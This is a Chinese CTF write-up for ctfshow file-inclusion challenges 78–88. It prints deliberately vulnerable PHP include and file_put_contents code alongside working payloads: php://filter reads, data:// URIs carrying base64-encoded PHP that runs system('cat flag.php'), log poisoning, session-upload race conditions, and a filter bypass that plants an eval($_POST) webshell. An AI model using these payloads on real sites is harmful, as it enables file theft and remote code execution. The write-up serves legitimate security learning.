







---

title: ctfshow_文件包含
author: Pp1ove
avatar: \img\custom\head.jpg
authorLink: 
authorAbout: Pp1ove
authorDesc: 一个好奇的人
categories: 技术
date: 2021-01-27 16:56:29
tags: 文件包含
keywords:
description:
photos: \img\article\9.png
---

## 78

file=php://filter/read=convert.base64-encode/resource=flag.php

## 79

file=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs=

## 80-81 包含日志文件

我们的请求保存在了日志中,若我们用include包含日志则可能执行里面的php语句



## 82-86 PHP_SESSION_UPLOAD_PROGRESS进行文件包含

```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

因为之前在session反序列化里面写过了，就不介绍了,这题多了一个条件竞争,开两个burp就行了





## 87 **file_put_content配合协议**

```PHP
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $content = $_POST['content'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);

    
}else{
    highlight_file(__FILE__);
}
```

先上图，



为了绕过前面的str_replace ,这里将file进行两次编码



而后面的content是与前面的phpdie拼接,<?php die(); 中合法的base64字符串是phpdie,而base64是每四个字一组,则加两个aa,让前面的八个字母组合,从而不影响我们后面的 <?php @eval($_POST[a]);






还有一些相关文章:https://xz.aliyun.com/t/8163#toc-3%20php://filter/write=string.rot13/resource=2.php

https://www.leavesongs.com/PENETRATION/php-filter-magic.html?page=2#reply-list

## 88

```PHP
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

过滤了很多,但是没有过滤:

使用伪协议

`data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmwwZy5waHAnKTsgPz4`